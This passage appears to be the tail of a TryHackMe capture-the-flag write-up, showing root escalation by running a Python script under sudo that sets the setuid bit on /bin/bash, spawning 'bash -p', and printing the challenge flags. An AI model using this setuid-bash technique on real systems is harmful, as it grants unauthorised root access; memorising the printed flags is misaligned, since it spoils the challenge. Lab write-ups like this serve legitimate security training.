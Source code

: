 Now, let's create a malicious python file:

```python
import os
os.system('chmod u+s /bin/bash')
```

Now, we can run the script as sudo:

```bash
sudo /usr/bin/python3 /home/cyber/run.py
```

If we check `/bin/bash`:

![](cybersecurity/images/Pasted%2520image%252020250425132224.png)

There we go, we can simply do:

```bash
/bin/bash -p
```

![](cybersecurity/images/Pasted%2520image%252020250425132249.png)

We can find all flags now, there are three flags on this CTF:

```
bash-4.3# find / -type f -name "*.txt" 2>/dev/null | head -n 3 
/home/cyber/flag1.txt
/home/yash/flag2.txt
/root/root.txt
```

```
bash-4.3# cat /home/yash/flag2.txt
THM{20c1d18791a246001f5df7867d4e6bf5}
```

```
bash-4.3# cat /root/root.txt
████████████████████████████████████
██                                ██
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██
████████████████████████████████████


						battery designed by cyberbot :)
						Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859



THM{db12b4451d5e70e2a177880ecfe3428d}
```


![](cybersecurity/images/Pasted%2520image%252020250425133033.png)

